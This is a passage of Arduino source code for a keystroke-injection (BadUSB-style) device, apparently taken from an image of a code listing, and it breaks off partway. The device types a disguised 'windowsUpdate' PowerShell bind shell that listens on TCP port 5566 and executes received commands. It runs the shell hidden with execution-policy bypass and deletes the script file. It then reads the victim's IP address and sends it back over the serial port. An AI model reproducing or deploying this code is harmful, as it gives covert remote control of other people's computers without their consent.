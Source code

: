 ```js
    Keyboard.println("set updateSource=\"function windowsUpdate{$stream=$client.GetStream();[byte[]]$bytes=0..65535^|^%{0};$sendbytes=([text.encoding]::ASCII).GetBytes('Running as user '+$env:username+' on '+$env:computername+'.');$stream.Write($sendbytes,0,$sendbytes.Length);$sendbytes=([text.encoding]::ASCII).GetBytes('PS '+(Get-Location).Path+'^>');$stream.Write($sendbytes,0,$sendbytes.Length);while(($i=$stream.Read($bytes,0,$bytes.Length)) -ne 0){$EncodedText=New-Object -TypeName System.Text.ASCIIEncoding;$data=$EncodedText.GetString($bytes,0,$i);try{$sendback=(IEX -Command $data 2^>^&1 ^| Out-String );}catch{}$sendback2  = $sendback + 'PS ' + (Get-Location).Path + '^> ';$x = ($error[0] ^|Out^-String);$error.clear();$sendback2 = $sendback2 + $x;$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();}$client.Close();if($listener){$listener.Stop();}$listener=[System.Net.Sockets.TcpListener]5566;$listener.start();rm update.ps1;$client=$listener.AcceptTcpClient();windowsUpdate\"");
    delay(500);

    Keyboard.println("echo %updateSource:~1,1014%>update.ps1");
    delay(200);
    Keyboard.println("powershell -ep bypass -windowstyle hidden -file update.ps1");
    delay(500);

    Keyboard.press(KEY_LEFT_GUI);
    delay(20);
    Keyboard.release(KEY_LEFT_GUI);
    delay(500);
    Keyboard.print("Powershell");
    delay(500);
    Keyboard.press(KEY_RETURN);
    delay(200);
    Keyboard.release(KEY_RETURN);
    delay(1000);
    Keyboard.println("Get-NetIPAddress -AddressFamily IPv4 -suffixorigin dhcp|select ipaddress|Out-String -OutVariable d");
    delay(200);
    Keyboard.println("$c=((Get-WmiObject -query \"SELECT * FROM Win32_PnPEntity\"|Where{$_.Name -Match \"COM\\d+\"}).name).Split(\"COM\")");
    delay(200);
    Keyboard.println("$c=[int]$c[$c.length-1].replace(\")\",\"\")");
    delay(200);
    Keyboard.print("$s=new-Object System.IO.Ports.SerialPort COM");
    Keyboard.print("$c");
    Keyboard.println(",9600,None,8,one");
    delay(200);
    Keyboard.println("$s.Open()");
    delay(200);
    Keyboard.println("$s.Write(\"$d\")");
    delay(200);
    Keyboard.println("$s.close()");
    delay(200);
    Keyboard.println("exit");
    delay(200);

    for(int i=0; i<sizeof(stringArray)-1; i++)
        stringArray[i] = Serial.read();

    EEPROM.put(1, stringArray);
}
void ipaddr() {
    delay(500);
    Keyboard.press(KEY_LEFT_GUI);
    delay(20);
    Keyboard.release(KEY_LEFT_GUI);
    delay(500);
    Keyboard.println("notepad");
    delay(700);
    Keyboard.press(KEY_RETURN);
```